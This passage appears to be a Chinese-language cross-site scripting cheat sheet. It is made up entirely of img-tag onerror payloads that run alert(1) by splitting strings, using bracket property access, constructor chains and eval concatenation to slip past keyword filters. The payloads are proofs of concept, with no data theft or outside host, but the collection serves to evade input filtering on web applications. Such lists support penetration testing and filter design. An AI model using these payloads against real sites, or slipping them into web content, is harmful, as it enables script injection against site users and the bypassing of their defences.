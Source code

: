##### 0x02. top

```
<img src="x" onerror="top['al'+'ert'](1)">
```

##### 0x03. window

```
<img src="x" onerror="window['al'+'ert'](1)">
```

##### 0x04. self

```
<img src="x" onerror="self[`al`+`ert`](1)">
```

##### 0x05. parent

```
<img src="x" onerror="parent[`al`+`ert`](1)">
```

##### 0x06. frames

```
<img src="x" onerror="frames[`al`+`ert`](1)">
```

##### 0x07. 常用函数

```
<img src="x" onerror="eval(alert(1))">
<img src="x" onerror="open(alert(1))">
<img src="x" onerror="document.write(alert(1))">
<img src="x" onerror="setTimeout(alert(1))">
<img src="x" onerror="setInterval(alert(1))">
<img src="x" onerror="Set.constructor(alert(1))">
<img src="x" onerror="Map.constructor(alert(1))">
<img src="x" onerror="Array.constructor(alert(1))">
<img src="x" onerror="WeakSet.constructor(alert(1))">
<img src="x" onerror="constructor.constructor(alert(1))">
<img src="x" onerror="[1].map(alert(1))">
<img src="x" onerror="[1].find(alert(1))">
<img src="x" onerror="[1].every(alert(1))">
<img src="x" onerror="[1].filter(alert(1))">
<img src="x" onerror="[1].forEach(alert(1))">
<img src="x" onerror="[1].findIndex(alert(1))">
```

#### 赋值拼接

```
<img src onerror=_=alert,_(1)>
<img src x=al y=ert onerror=top[x+y](1)>
<img src onerror=top[a='al',b='ev',b+a]('alert(1)')>
<img src onerror=['ale'+'rt'].map(top['ev'+'al'])[0]['valu'+'eOf']()(1)>
```
